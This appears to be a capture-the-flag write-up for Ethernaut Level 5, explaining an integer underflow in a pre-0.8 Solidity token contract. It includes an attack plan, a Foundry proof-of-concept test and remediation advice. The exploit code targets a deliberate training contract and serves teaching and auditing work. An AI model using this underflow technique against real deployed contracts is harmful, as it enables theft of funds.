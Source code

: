# Level 5 - Token

## Objectives

- You are given 20 tokens. Use them to gain additional tokens. Preferably a very large amount of tokens.

## Contract Overview

The `Token` contract is a simplified version of the ERC20 standard. It has 2 out
of 6 core ERC20 functions (`transfer()` and `balanceOf()`). It does not have the
mechanism of approval/spending of someone else's tokens. It also does not emit
`Transfer` and `Approval` events, which are necessary for the ERC20
specification. The `Token` contract lacks important safety checks to prevent
some of the most common ERC20 vulnerabilities.
_References: https://ethereum.org/en/developers/docs/standards/tokens/erc-20/, https://eips.ethereum.org/EIPS/eip-20_

Other than that, the `Token` contract is functioning almost the same as the
ERC20.

In the `Token` contract what interest us is `transfer()` function. This function is responsible for the transfer of tokens and accepts an address to which to send the tokens and a value specifying how many tokens to send.

```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

The first line has a validation that checks if sender balance does not go negative when we transfer the tokens. It should always be `>=0`.

The second line deducts the value from our balance.

The third line adds the token value to the balance of the receiver (`_to`).

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Token_slither.png)

## Finding the weak spots

The contract's Solidity version is <0.8 which means that it is prone to overflows and underflows.
_Reference: https://solidity-by-example.org/hacks/overflow/_

Integer Overflow is a scenario where the unsigned variable types reach their maximum capacity. When it can't hold anymore, it just resets back to its initial minimum point which was 0. The opposite goes for underflows. In the case of underflow, if we subtract 1 from a uint8 that is 0, it will change the value to 255.

To exploit `Token` contract we have to underflow the token balance. The vulnerability lies in the second line which is deducting our balance.

```solidity
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0); // <-- this line over here
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

In older versions of Solidity, there was no validation for overflows and underflows therefore developers had to implement their own checks. A SafeMath library was also introduced for this purpose. But since Solidity 0.8.0+, there's no need to use the SafeMath since it natively checks the variables for overflows and underflows and reverts if detected.
_Reference: https://blog.dixitaditya.com/ethernaut-level-05-token_

Since the objective of the level is for us to acquire some tokens, we'll have to exploit the following statements

```solidity
    require(balances[msg.sender] - _value >= 0); // <-- this line over here
    balances[msg.sender] -= _value;
```

In the case we not specify `uint` and left it as `uint` in fact it is `uint256` so the max value is `2^256 - 1`. `Uint` doesn't have negative number so if we transfer 21 tokens (having 20 tokens to start with) it would be `-1` but in this case it would be `2^256 - 1` so a very big number.

## Potential attack scenario (hypothesis)

If attacker transfers 21 tokens (having 20 tokens to start with) to some random contract address, he can exploit integer underflow to gain additional tokens (a very large amount of tokens).

## Plan of the attack

Attacker is given 20 tokens to start with.

1.  Attacker looks for random contract address (e.g. from https://etherscan.io/).
2.  Attacker calls `transfer()` passing random contract address as the first argument and any number larger than the number of tokens that attacker possesses (e.g. 21).
3.  Attacker gains additional tokens.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/05-Token.t.sol))

```solidity
        // Attacker looks for random contract address (e.g. from https://etherscan.io/).
        address randomContractAddress = 0xBaF6dC2E647aeb6F510f9e318856A1BCd66C5e19;

        emit log_named_uint(
            "Attackers's balance of tokens (before attack): ",
            tokenContract.balanceOf(attacker)
        );

        // Attacker calls `transfer()` passing random contract address as the first argument and any number larger than the number of tokens that attacker possesses
        emit log_string("Starting the exploit...");
        tokenContract.transfer(randomContractAddress, 21);

        // Attacker gains additional tokens
        tokenContract.balanceOf(attacker);

        emit log_named_uint(
            "Attackers's balance of tokens (after attack): ",
            tokenContract.balanceOf(attacker)
        );

        // Test assertion
        assertGe(tokenContract.balanceOf(attacker), 20);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Token.png)

## Recommendations

- For Solidity versions < 0.8.0 the use of SafeMath is recommended
- It is important to have 0 address checks to prevent token burning if it is not
  intended by design.
- Fuzz tests may catch unexpected logic bugs early. It is recommended to have at
  least one fuzz test per function (ex. tools: Echidna, Foundry fuzz tests,
  Mythril, Scribble)
- Make sure that all of the return values are checked. It is safer to have
  functions revert on failure rather than returning a boolean.
- State variables that do not change should be declared `constant`.

## Additional information

You can also read my other solution (using console) on my blog: https://matrix-0wl.gitbook.io/ethernaut/5.-token-uint-prone-to-under-overflow-in-solidity-less-than-0.8

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

```

```
